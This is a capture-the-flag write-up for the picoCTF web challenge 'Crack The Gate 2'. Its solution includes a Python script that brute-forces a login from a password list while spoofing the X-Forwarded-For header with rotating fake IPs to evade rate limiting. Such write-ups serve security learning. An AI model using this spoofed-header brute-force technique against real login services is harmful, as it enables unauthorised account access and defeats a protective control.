




# Crack The Gate 2 (Web Exploitation)
## Description

The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. We’ve received a tip that the system might still trust user-controlled headers. Your objective is to bypass the rate-limiting restriction and log in using the known email address: ctf-player@picoctf.org and uncover the hidden secret.

Additional details will be available after launching your challenge instance.

### Hints
1. What IP does the server think you’re coming from?
2. Read more about X-forwarded-For
3. You can rotate fake IPs to bypass rate limits.

## Solution
By reading the above description its clear that we have to login with the account "ctf-player@picoctf.org" by choosing the right password from a list provided with a question "passwords.txt".



I tried to brute force the password manually from the passwords provided with the question but it seems like I've got blocked due to the number of attempts



After reading about "X-forwarded-For" I've understand that the website is blocking me as per the IP sending the request of login, and right now I am thinking about a brute force with different IPs using a python script with the help of the "request library".

## code snippet 
```
import requests

email = "ctf-player@picoctf.org"
passwords = []
link = "http://amiable-citadel.picoctf.net:49345/"
endpoint = "login"


#Getting the passwords and storing it in a list
try:
    with open("passwords.txt","r") as f:
        content = f.readlines()
except:
    print("The file is not found or corrupted")

# Storing the password without whitespace
for password in content:
    stripped_password = password.strip()
    passwords.append(stripped_password)

for i in range(1,21):
    paylaod = {"email":f"{email}","password":f"{passwords[i-1]}"}
    header = {"Content-Type":"application/json", "X-Forwarded-For":f"10.10.10.{i}"}

    #Sending the requestion
    req = requests.post(url=link+endpoint, json=paylaod, headers=header)
    res = req.text

    #keep track of the iteration
    print(f"Trying password: {passwords[i-1]}")
    print(f"Server Response: {res}")
```
By running the code from the terminal the response of the server is printed along with the password tried.



The flag appeared in the response but to check from the official website I took the password and went to try password that returned the flag in the response.



Pwned!
